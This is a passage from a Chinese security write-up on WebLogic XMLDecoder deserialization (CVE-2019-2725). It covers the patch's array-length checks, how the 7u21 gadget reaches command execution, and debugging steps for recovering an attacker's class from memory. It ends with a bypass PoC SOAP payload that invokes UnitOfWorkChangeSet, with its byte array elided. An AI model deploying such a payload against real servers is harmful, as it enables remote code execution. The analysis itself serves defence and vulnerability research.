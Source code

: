 ```
                     try `{`

                        int length = Integer.valueOf(lengthString);

                        if (length &gt;= WorkContextXmlInputAdapter.MAXARRAYLENGTH) `{`

                           throw new IllegalStateException("Exceed array length limitation");

                        `}`

                        this.overallarraylength += length;

                        if (this.overallarraylength &gt;= WorkContextXmlInputAdapter.OVERALLMAXARRAYLENGTH) `{`

                           throw new IllegalStateException("Exceed over all array limitation.");

                        `}`
```

不过7u21模块有一点要提一下，7u21模块利用的最后会通过将TemplatesImpl对象的_bytecodes变量动态生成为对象，于是该类的static block和构造函数便会自动执行，而这个类又是攻击者可以随便构造的，于是便造成了命令执行。

由于此次漏洞的payload是byte写的，而由于攻击利用类又是动态生成的，所以分析攻击者的代码是个比较麻烦的事情，所以下面给出如何将payload中攻击者代码还原出来的方法。
1. 开启weblogic远程调试，并把断点打在ProcessBuilder类的start函数中（因为此时攻击类已经动态生成成功，但是没法直接在编译器里查看代码）
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_473_/t01bb7b2f0c462b898a.png)
1. 使用jps -l命令查看weblogic的pid
[![](https://p1.ssl.qhimg.com/t01e408b88c22aed112.png)](https://p1.ssl.qhimg.com/t01e408b88c22aed112.png)

3、运行sudo java -cp $JAVA_HOME/lib/sa-jdi.jar sun.jvm.hotspot.HSDB命令查看对应PID的内存，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_695_/t01b4e507f973da4eb9.png)

4、搜索内存中的动态生成类，并生成class文件，反编译一下，就可以看到攻击者写的自定义类了。

[![](https://p2.ssl.qhimg.com/dm/1024_725_/t0132abbb1af6d27228.png)](https://p2.ssl.qhimg.com/dm/1024_725_/t0132abbb1af6d27228.png)



## CVE-2019-2725绕过

最近网上又流传了CVE-2019-2725绕过的poc，如下：

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"&gt;
    &lt;soapenv:Header&gt;
        &lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;
            &lt;java&gt;
                &lt;array method="forName"&gt;
                    &lt;string&gt;oracle.toplink.internal.sessions.UnitOfWorkChangeSet&lt;/string&gt;
                    &lt;void&gt;
                        &lt;array class="byte" length="3748"&gt;
                            ...
                        &lt;/array&gt;
                    &lt;/void&gt;
                &lt;/array&gt;
            &lt;/java&gt;
        &lt;/work:WorkContext&gt;
```